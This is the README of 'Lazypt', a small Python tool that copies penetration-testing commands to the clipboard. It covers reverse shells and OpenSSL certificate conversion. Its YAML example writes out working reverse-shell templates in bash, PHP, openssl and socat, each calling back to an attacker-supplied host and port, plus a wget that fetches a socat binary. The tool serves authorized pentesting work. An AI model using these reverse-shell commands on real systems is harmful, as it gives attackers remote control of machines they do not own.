 # Lazypt v0.1

Lazypt is a simple Python program that pastes to your clipboard some common penetration testing commands. Ths version works on linux. Change pathmanager.py to fix the path for Windows OS.

## Features

- Reverse shell cheatsheet
- Openssl certificates conversion/generation cheatsheet

### Reverse shell cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- py
- pl
- sh
- php
- rb
- awk
- openssl
- socat

### YAML example

```yaml
---
- sh:
    code: bash -i >& /dev/tcp/{}/{} 0>&1
- php:
    code: php -r '$sock=fsockopen("{}",{});exec("/bin/sh -i <&3 >&3 2>&3");'
- openssl:
    code: |-
       Attacker> ncat --ssl -vv -l -p {}
       Target> mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {}:{} > /tmp/s; rm /tmp/s
- socat:
    code: |-
      Attacker> socat file:`tty`,raw,echo=0 tcp-listen:{}
      Target> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{}:{}
      Socat binary> wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

place {} where you want to put LHOST and LPORT passed to the program as args.


### OpenSSL cheatsheet
The following openssl commands are available. They can be expanded with your custom cheatsheet by editing the file openssl.yaml
- Command to generate a Private Key and a CSR
- Command to generate a CSR from an Existing Private Key 
- Command to generate a CSR from an Existing Certificate and Private Key
- Command to generate a Self-Signed Certificate
- Command to generate a Self-Signed Certificate from an Existing Private Key
- Command to generate a Self-Signed Certificate from an Existing Private Key and CSR
- Command to convert PEM to DER
- Command to convert DER to PEM
- Command to convert PEM to PKCS7
- Command to convert PKCS7 to PEM  
- Command to convert PEM to PKCS12
- Command to convert PKCS12 to PEM
    
## Dependencies
- click
- pyperclip
- pyYAML

## Installation

```bash
git clone https://github.com/AndyBTuttofare/lazypt.git
cd lazypt
python setup.py install
```

## Usage

```bash
Usage: lazypt rsh [OPTIONS] LHOST LPORT [py|pl|sh|php|rb|awk|openssl|socat]

  Copy the chosen reverse shell code to the clipboard. It allows to switch
  the scripting language. (Does not run the commands)

Options:
  --help  Show this message and exit.
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.


## License
[MIT](https://choosealicense.com/licenses/mit/)
